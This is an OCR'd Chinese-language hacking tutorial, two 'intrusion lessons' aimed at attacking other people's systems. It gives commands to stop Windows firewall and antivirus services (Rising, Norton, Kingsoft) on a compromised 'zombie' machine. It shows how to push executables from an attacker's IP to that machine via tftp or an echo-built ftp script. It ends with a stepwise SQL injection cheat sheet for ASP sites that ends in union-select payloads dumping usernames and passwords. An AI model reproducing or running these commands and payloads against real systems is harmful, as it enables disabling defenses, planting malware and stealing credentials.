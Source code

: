 net stop sharedaccess ----关系统自带防火墙 
pskill.exe ravmon -----杀掉瑞星软件 
pskill.exe pfw ----关天网防火墙 
net stop "Symantec AntiVirus"----关于诺顿企业版 
net stop KAVStart------关闭金山杀毒 

向肉鸡上传文件命令: 
第一种方法:tftp 
命令格式:tftp -i 你的公网IP get xx.exe 
第二种方法:ftp 
命令格式: 
echo open xxx.xxx.xxx.xxx>c:\520hack.txt 
echo user>>c:\520hack.txt 
echo pass>>c:\520hack.txt 
echo get aoqi.rar>>c:\520hack.txt 
echo bye>>c:\520hack.txt 
ftp -s:c:\520hack.txt 


入侵第四课
http://baike.baidu.com/view/3896.htm
所谓SQL注入，就是通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令，比如先前的很多影视网站泄露VIP会员密码大多就是通过WEB表单递交查询字符暴出的，这类表单特别容易受到SQL注入式攻击． 
当应用程序使用输入内容来构造动态sql语句以访问数据库时，会发生sql注入攻击。如果代码使用存储过程，而这些存储过程作为包含未筛选的用户输入的字符串来传递，也会发生sql注入。sql注入可能导致攻击者使用应用程序登陆在数据库中执行命令。相关的SQL注入可以通过测试工具pangolin进行。如果应用程序使用特权过高的帐户连接到数据库，这种问题会变得很严重。在某些表单中，用户输入的内容直接用来构造动态sql命令，或者作为存储过程的输入参数，这些表单特别容易受到sql注入的攻击。而许多网站程序在编写时，没有对用户输入的合法性进行判断或者程序中本身的变量处理不当，使应用程序存在安全隐患。这样，用户就可以提交一段数据库查询的代码，根据程序返回的结果，获得一些敏感的信息或者控制整个服务器，于是sql注入就发生了。
简单的ASP注入 ’ and 1=1 and 1=2
针对网站ASP ACCES 数据库







入侵第五课
www.xxxxx.com/asp?id=123
整形参数判断

    1、直接加'  2、and 1=1  3、 and 1=2
    如果1、3运行异常 2正常就存在注入
字符型判断
    1、直接加'  2、and '1'='1'  3、 and '1'='2'
搜索型： 关键字%' and 1=1 and '%'='%   
        关键字%' and 1=2 and '%'='%
    如果1、3运行异常 2正常就存在注入
获取数据库版本
and (select @@version)>0
获取当前数据库名
and db_name()>0
获取当前数据库用户名
and user>0
and user_name()='dbo'
猜解所有数据库名称
and (select count(*) from master.dbo.sysdatabases where name>1 and dbid=6) <>0
猜解表的字段名称
and (Select Top 1 col_name(object_id('表名'),1) from sysobjects)>0
and (select top 1 asernaose from admin where id =1)>1
.asp?id=xx having 1=1  其中admin.id就是一个表名admin 一个列名id
.asp?id=xx group by admin.id having 1=1 可以得到列名
.asp?id=xx group by admin.id,admin.username having 1=1 得到另一个列名 页面要和表有联系 
如果知道了表名和字段名就可以爆出准确的值
union select 1,2,username,password,5,6,7,8,9,10,11,12 from usertable where id=6
爆账号
union select min(username),1,1,1，.. from users where username > 'a'
依次循环爆其余的账号
union select min(username),1,1,1,.. from users where username > 'admin'